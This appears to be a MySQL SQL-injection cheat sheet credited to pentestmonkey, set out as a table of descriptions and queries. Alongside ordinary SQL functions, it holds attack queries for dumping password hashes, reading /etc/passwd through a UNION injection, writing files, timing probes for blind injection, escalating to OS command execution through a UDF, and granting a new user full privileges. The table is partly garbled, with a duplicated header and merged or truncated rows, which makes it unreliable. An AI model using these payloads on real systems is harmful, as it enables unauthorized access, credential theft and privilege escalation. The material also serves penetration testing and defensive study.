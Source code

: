 # All credits go to pentestmonkey:

| Description | Commands |
| --- | --- |
| Description | Commands |
| --- | --- |
|Version|SELECT @@version, 
|Comments|SELECT 1; #comment, SELECT /*comment*/1;|
|Current User|SELECT user(); SELECT system_user();|
|List Users|SELECT user FROM mysql.user; — priv|
|List Password Hashes|SELECT host, user, password FROM mysql.user; — priv|
|Password Cracker|John the Ripper will crack MySQL password hashes.|
|List Privileges|SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns|
|List DBA Accounts|SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv|
|Current Database|SELECT database()|
|List Databases|SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0, SELECT distinct(db) FROM mysql.db — priv|
|List Columns|SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|List Tables|SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|Find Tables From Column Name|SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’|
|Select Nth Row|SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0 SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0 Select Nth Char|SELECT substr(‘abcd’, 3, 1); # returns c|
|Bitwise AND|SELECT 6 & 2; # returns 2, SELECT 6 & 1; # returns 0|
|ASCII Value -> Char|SELECT char(65); # returns A|
|Char -> ASCII Value|SELECT ascii(‘A’); # returns 65|
|Casting|SELECT cast(’1′ AS unsigned integer); SELECT cast(’123′ AS char);|
|String Concatenation|SELECT CONCAT(‘A’,'B’); #returns AB SELECT CONCAT(‘A’,'B’,'C’); # returns ABC|
|If Statement|SELECT if(1=1,’foo’,'bar’); — returns ‘foo’|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A|
|Avoiding Quotes|SELECT 0×414243; # returns ABC|
|Time Delay|SELECT BENCHMARK(1000000,MD5(‘A’));SELECT SLEEP(5); # >= 5.0.12|
|Make DNS Requests|Impossible?|
|Command Execution|If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.|
|Local File Access|…’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files.SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system|
|Hostname, IP Address|SELECT @@hostname;|
|Create Users|CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv|
|Delete Users|DROP USER test1; — priv|
|Make User DBA|GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv|
|Location of DB files|SELECT @@datadir;|
|Default/System Databases|information_schema (>= mysql 5.0)|
|mysql|
